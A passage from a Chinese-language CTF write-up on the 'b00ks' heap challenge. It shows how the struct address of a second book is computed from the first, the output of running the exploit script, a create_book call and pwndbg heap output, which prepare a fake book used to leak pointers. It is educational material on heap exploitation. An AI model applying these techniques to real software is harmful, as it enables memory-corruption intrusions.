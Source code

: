 得到如下结果，通过计算可以得到book2_struct_addr，之所以在 book1_struct_addr的基础上加0x30的原因是：创建的book2的name和description的大小过大，系统会使用mmap分配对空间，故没有使用连续的chunk块，而对于book2_struct的大小只有0x20，故在Top chunk上分配堆空间，故只需要加0x30得到book2_struct_addr

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap$ python2 b00ks.py
[+] Starting local process './b00ks': pid 12821
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] running in new terminal: ['/usr/bin/gdb', '-q', './b00ks', '12821']
[+] Waiting for debugger: Done
book1_struct_addr:0x555555605160
book2_struct_addr:0x555555605190
```

###### 第二步：伪造book1，泄露book2_name_ptr地址

创建book2

```python
create_book(target, 0x21000, 'book_2', 0x21000, 'second book create')
```

观察堆情况：

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555604000
Size: 0x1011

Allocated chunk | PREV_INUSE
Addr: 0x555555605010
Size: 0xa1

Allocated chunk | PREV_INUSE
Addr: 0x5555556050b0
Size: 0xa1

Allocated chunk | PREV_INUSE
Addr: 0x555555605150
Size: 0x31

Allocated chunk | PREV_INUSE       //存储book2_struct的堆块
Addr: 0x555555605180
Size: 0x31

Top chunk | PREV_INUSE
Addr: 0x5555556051b0
Size: 0x20e51
```
